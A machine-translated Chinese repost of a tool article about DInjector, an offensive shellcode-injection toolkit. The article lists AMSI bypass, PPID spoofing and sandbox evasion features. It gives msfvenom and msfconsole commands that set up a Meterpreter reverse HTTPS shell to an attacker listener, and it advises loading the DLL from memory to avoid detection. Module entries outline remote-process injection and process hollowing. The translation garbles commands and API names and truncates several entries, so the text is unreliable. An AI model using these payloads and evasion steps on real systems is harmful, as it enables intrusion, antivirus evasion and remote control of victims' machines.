

# DInjector:封装在 D/Invoke 武器化 DLL 中的外壳代码注入技术的集合

> 原文：<https://kalilinuxtutorials.com/dinjector/>

**DInjector** repository 是我为各种**外壳代码注入**技术积累的代码片段，使用了由@TheWover 和@FuzzySecurity 开发的奇妙的 D/Invoke API。

特点:

*   完全移植到 D/Invoke API
*   可以从 URL 调用或以 base64 作为参数传递的加密有效负载
*   内置 AMSI 旁路
*   PPID 欺骗和阻止非微软动态链接库(从 TikiTorch 偷来的，写在这里)
*   沙盒检测和规避

ℹ️根据我的测试，DInvoke NuGet 包本身被许多商业 AV/EDR 解决方案标记为通过 costura 嵌入的资源。Fody(或类似的方法)，所以我把它缩小了一点，并从源代码中包括进来，以实现更好的 OpSec。

**免责声明。**本库中包含的所有信息仅用于教育和研究目的。作者对该工具的任何非法使用不负任何责任。

**用法**

*   在 VS 中编译项目。
*   为你最喜欢的 C2 生成一个外壳代码:

**~ $ MSF venom-p windows/x64/meter preter/reverse _ winhttps LHOST = 10 . 10 . 13 . 37 LPORT = 443 exit func = thread-f raw-o shellcode . bin**

加密外壳代码:

**~ $ encrypt . py shellcode . bin-p ' pass w0 rd！'-o enc**

提供加密的外壳代码并准备好 C2 监听器:

**~ $ sudo python 3-m http . server 80
~ $ sudo MSF console-qx "使用 exploit/multi/handler；设置有效负载 windows/x64/meter preter/reverse _ winhttps；设置 lhost 10 . 10 . 13 . 37；设置 lport 443 设置 EXITFUNC 线程；跑"**

*   使用 PowerShell 下载底座加载 DInjector.dll as`**System.Reflection.Assembly**`并从内存中执行它。

我不建议将程序集放在磁盘上，因为它很可能会被标记。

必需的全局参数:

| 名字 | 示例值 | 描述 |
| --- | --- | --- |
| `**/am51**` | **`True`，`False`** | 应用 AMSI 旁路 |
| `**/sc**` | `**http://10.10.13.37/enc**` | 设置外壳代码路径(可以从 URL 加载或作为 Base64 字符串) |
| `**/password**` | `**Passw0rd!**` | 设置密码来解密外壳代码 |

**模块**

OpSec 安全考虑基于我个人的使用经验和一些测试。

**功能指针**

**module _ name:' function pointer '
描述:
分配一个 RW 内存区，将 shell 代码复制到其中
并像函数一样执行。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' http://disbaux es . UPC . es/code/two-basic-ways-to-run-and-test-shellcode/'
' https://www . ired . team/offensive-security/offensive**

**功能点 V2**

**module _ name:' function pointer v2 '
描述:
在字节数组上设置 RX，并像函数一样执行它。
调用:
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-1/'
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-2/'
' https://github . com/jhalon**

**剪贴板指针**

**module _ name:' clipboard pointer '
描述:
将 shellcode 字节复制到剪贴板，
在上面设置 RX 并像函数一样执行。
调用:
user 32 . dll:
1:' open clipboard '
2:' SetClipboardData '
3:' close clipboard '
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:true
引用:**

**当前线程**

**module _ name:' current thread '
描述:
将外壳代码注入当前进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
3:' NtCreateThreadEx '
4:' NtWaitForSingleObject '
5:' NtFreeVirtualMemory(shell code)'
op sec _ safe:false
引用:
' https://github . com/XingYun**cs’****

**currentthreaduid**

**module _ name:' currentthreaduid '
描述:
将外壳代码注入当前进程。
通过 EnumSystemLocalesA 执行线程。
调用:
kernel 32 . dll:
1:' heap create '
2:' EnumSystemLocalesA '
RP CRT 4 . dll:
1:' UuidFromStringA '
op sec _ safe:false
引用:
' https://blog . sunggwanchoi . com/eng-uuid-shellcode-execution/'
' https://github . com/choi SG/uuidid**

**远程线程**

**module _ name:' remote thread '
参数:
/pid:1337
描述:
将外壳代码注入现有的远程进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' ntaallocatevirtualmemory(PAGE _ READ write)'
3:' NtWriteVirtualMemory(shell code)'
4:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
5:' NtCreateThreadEx '
op sec _ safe:false
引用:
'https://github.com/S3cur**

**RemoteThreadDll**

**module _ name:' remote thread dll '
参数:
/PID:1337
/dll:msvcp _ win . dll
描述:
将外壳代码注入到现有的远程进程中
覆盖其已加载的模块之一。文本部分。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' NtWriteVirtualMemory(shellcode)'
3:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
4:' NtCreateThreadEx '
op sec _ safe:–
引用:
' https://www . net ero 1010-secu**r**itylab.com/eavsion/alternative-process-injection'**

**远程线程上下文**

**module _ name:' remotethreadcontext '
参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新产生的远程进程中。
通过 SetThreadContext 执行线程。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll:dll:
1:' ntallocatevrtualmemory(PAGE _ READ write)'
2:' NtWriteVirtualMemory(shell code)'
3:'调用**

**ProcessHollow**

**module _ name:' process hollow '**
**参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新生成的远程进程中。
通过 NtResumeThread 执行线程(外壳代码挖空)。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll . dll:
1:' NtQueryInformationProcess '
2:' NtReadVirtualMemory(ptrImageBaseAddress)'
3:' ntprotectvirtualmtreal**

[**Download**](https://github.com/snovvcrash/DInjector)